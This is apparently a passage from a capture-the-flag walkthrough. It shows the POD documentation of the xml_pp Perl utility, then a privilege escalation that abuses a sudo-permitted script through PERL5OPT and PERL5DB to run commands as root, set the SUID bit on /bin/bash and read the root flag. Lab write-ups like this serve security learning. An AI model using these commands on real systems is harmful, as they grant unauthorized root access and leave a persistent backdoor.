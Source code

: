 ```perl

=head1 EXAMPLES

  xml_pp foo.xml > foo_pp.xml           # pretty print foo.xml 
  xml_pp < foo.xml > foo_pp.xml         # pretty print from standard input

  xml_pp -v -i.bak *.xml                # pretty print .xml files, with backups
  xml_pp -v -i'orig_*' *.xml            # backups are named orig_<filename>

  xml_pp -i -p pre foo.xhtml            # preserve spaces in pre tags
  
  xml_pp -i.bak -p 'pre code' foo.xml   # preserve spaces in pre and code tags
  xml_pp -i.bak -p pre -p code foo.xml  # same

  xml_pp -i -s record mydb_export.xml   # pretty print using the record style

  xml_pp -e utf8 -i foo.xml             # output will be in utf8
  xml_pp -e iso-8859-1 -i foo.xml       # output will be in iso-8859-1

  xml_pp -v -i.bak -f lof               # pretty print in place files from lof
  
  xml_pp -- -i.xml                      # pretty print the -i.xml file

  xml_pp -l foo.xml                     # loads the entire file in memory 
                                        # before pretty printing it

  xml_pp -h                             # display help

=head1 BUGS

Elements with mixed content that start with an embedded element get an extra \n 

  <elt><b>b</b>toto<b>bold</b></elt>

will be output as 

  <elt>
    <b>b</b>toto<b>bold</b></elt>

Using the C<-l> option solves this bug (but uses more memory)

=head1 TODO

update XML::Twig to use Encode with perl 5.8.0

=head1 AUTHOR

Michel Rodriguez <mirod@xmltwig.com>
```
As the .sh calls a Perl script we can abuse this by using environment variables that make Perl run in debugger mode which allow us to run commands, this is known as ''perl_startup'' privilege escalation, to do so we run this `sudo PERL5OPT=-d PERL5DB='exec "ls /root"' /opt/monitor.sh`
```
Statement unlikely to be reached at /usr/bin/xml_pp line 9.
	(Maybe you meant system() when you said exec()?)
diagnostic_files  restore  root.txt
```
As we are able to run commands as root we get ourselfs a root terminal with `sudo PERL5OPT=-d PERL5DB='exec "chmod u+s /bin/bash"' /opt/monitor.sh`, then as the `bash` is now with euid we can run it as root with `bash -p`, the -p indicates to use privilege mode, we check that it worked `whoami`
```
root
```
And finally we get the last flag `cat /root/root.txt`